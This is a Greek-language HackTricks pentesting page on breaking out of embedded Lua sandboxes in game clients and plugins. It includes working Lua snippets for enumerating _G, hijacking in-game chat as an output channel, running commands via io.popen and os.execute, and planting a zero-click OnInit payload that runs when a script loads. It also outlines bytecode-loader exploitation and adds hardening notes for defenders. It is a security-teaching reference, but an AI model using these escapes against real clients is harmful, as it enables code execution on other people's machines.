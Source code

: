 # Παρακάμψτε Lua sandboxes (embedded VMs, game clients)

{{#include ../../../banners/hacktricks-training.md}}

Αυτή η σελίδα συγκεντρώνει πρακτικές τεχνικές για να εξερευνήσετε και να ξεφύγετε από ενσωματωμένα Lua "sandboxes" σε εφαρμογές (ιδιαίτερα game clients, plugins, ή in-app scripting engines). Πολλές engines εκθέτουν ένα περιορισμένο περιβάλλον Lua, αλλά αφήνουν ισχυρά globals προσβάσιμα που επιτρέπουν αυθαίρετη εκτέλεση εντολών ή ακόμη και native memory corruption όταν εκτίθενται bytecode loaders.

Key ideas:
- Θεωρήστε το VM ως άγνωστο περιβάλλον: καταγράψτε το _G και ανακαλύψτε ποια επικίνδυνα primitives είναι προσβάσιμα.
- Όταν stdout/print είναι μπλοκαρισμένο, κακοποιήστε οποιοδήποτε in-VM UI/IPC κανάλι ως output sink για να παρατηρήσετε αποτελέσματα.
- Αν io/os είναι εκτεθειμένα, συχνά έχετε απευθείας εκτέλεση εντολών (io.popen, os.execute).
- Αν load/loadstring/loadfile είναι εκτεθειμένα, η εκτέλεση crafted Lua bytecode μπορεί να υπονομεύσει την ασφάλεια μνήμης σε μερικές εκδόσεις (≤5.1 verifiers are bypassable; 5.2 removed verifier), επιτρέποντας προχωρημένη εκμετάλλευση.

## Εξερεύνηση του sandboxed περιβάλλοντος

- Dump το global environment για να καταγράψετε reachable tables/functions:
```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out`
local function dump_globals(out)
out("=== DUMPING _G ===")
for k, v in pairs(_G) do
out(tostring(k) .. " = " .. tostring(v))
end
end
```
- Αν το print() δεν είναι διαθέσιμο, επαναχρησιμοποιήστε τα in-VM κανάλια. Παράδειγμα από ένα MMO housing script VM όπου η έξοδος στο chat λειτουργεί μόνο μετά από μια sound call; το παρακάτω δημιουργεί μια αξιόπιστη συνάρτηση εξόδου:
```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
-- Some engines require enabling an audio channel before speaking
H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
return function(msg)
H.Say(label or 1, msg)
end
end

function OnMenu(menuNum)
if menuNum ~= 3 then return end
local out = ButlerOut(1)
dump_globals(out)
end
```
Γενικεύστε αυτό το μοτίβο για τον στόχο σας: οποιοδήποτε textbox, toast, logger ή UI callback που δέχεται strings μπορεί να λειτουργήσει ως stdout για reconnaissance.

## Άμεση εκτέλεση εντολών αν io/os είναι εκτεθειμένα

Αν το sandbox εξακολουθεί να εκθέει τις standard βιβλιοθήκες io or os, πιθανότατα έχετε άμεση εκτέλεση εντολών:
```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```
Σημειώσεις:
- Η εκτέλεση συμβαίνει μέσα στο client process· πολλά anti-cheat/antidebug layers που μπλοκάρουν external debuggers δεν θα αποτρέψουν το in-VM process creation.
- Επίσης έλεγξε: package.loadlib (arbitrary DLL/.so loading), require with native modules, LuaJIT's ffi (if present), and the debug library (can raise privileges inside the VM).

## Zero-click triggers via auto-run callbacks

Αν η host application ωθεί scripts στους clients και η VM εκθέτει auto-run hooks (π.χ. OnInit/OnLoad/OnEnter), τοποθέτησε το payload σου εκεί για drive-by compromise μόλις το script φορτωθεί:
```lua
function OnInit()
io.popen("calc.exe") -- or any command
end
```
Οποιοσδήποτε ισοδύναμος callback (OnLoad, OnEnter, etc.) γενικεύει αυτή την τεχνική όταν scripts μεταδίδονται και εκτελούνται αυτόματα στον client.

## Επικίνδυνα primitives για να εντοπίσετε κατά το recon

Κατά την enumeration του _G, ψάξτε ειδικά για:
- io, os: io.popen, os.execute, file I/O, πρόσβαση σε μεταβλητές περιβάλλοντος.
- load, loadstring, loadfile, dofile: εκτελούν πηγαίο κώδικα ή bytecode· επιτρέπουν τη φόρτωση μη αξιόπιστου bytecode.
- package, package.loadlib, require: φόρτωση δυναμικών βιβλιοθηκών και επιφάνεια module.
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo, και hooks.
- LuaJIT-only: ffi.cdef, ffi.load για να καλεί άμεσα native code.

Minimal usage examples (if reachable):
```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```
## Προαιρετική κλιμάκωση: κατάχρηση των Lua bytecode loaders

Όταν τα load/loadstring/loadfile είναι προσβάσιμα αλλά io/os είναι περιορισμένα, η εκτέλεση χειροποίητου Lua bytecode μπορεί να οδηγήσει σε memory disclosure και primitives καταστροφής μνήμης. Βασικά σημεία:
- Lua ≤ 5.1 shipped a bytecode verifier that has known bypasses.
- Lua 5.2 removed the verifier entirely (official stance: applications should just reject precompiled chunks), widening the attack surface if bytecode loading is not prohibited.
- Workflows typically: leak pointers via in-VM output, craft bytecode to create type confusions (e.g., around FORLOOP or other opcodes), then pivot to arbitrary read/write or native code execution.

Αυτή η διαδρομή είναι engine/version-specific και απαιτεί RE. Δείτε τις αναφορές για deep dives, exploitation primitives, και παραδείγματα gadgetry σε παιχνίδια.

## Detection and hardening notes (for defenders)

- Server side: απορρίψτε ή επαναγράψτε user scripts; allowlist safe APIs; strip ή bind-empty io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi.
- Client side: τρέξτε Lua με ένα minimal _ENV, απαγορεύστε bytecode loading, επανεισάγετε έναν αυστηρό bytecode verifier ή signature checks, και μπλοκάρετε τη δημιουργία διαδικασιών από τη διεργασία του client.
- Telemetry: ειδοποιήστε για gameclient → child process creation σύντομα μετά το script load; συσχετίστε με UI/chat/script events.

## References

- [This House is Haunted: a decade old RCE in the AION client (housing Lua VM)](https://appsec.space/posts/aion-housing-exploit/)
- [Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws](https://memorycorruption.net/posts/rce-lua-factorio/)
- [lua-l (2009): Discussion on dropping the bytecode verifier](https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html)
- [Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)](https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16)

{{#include ../../../banners/hacktricks-training.md}}
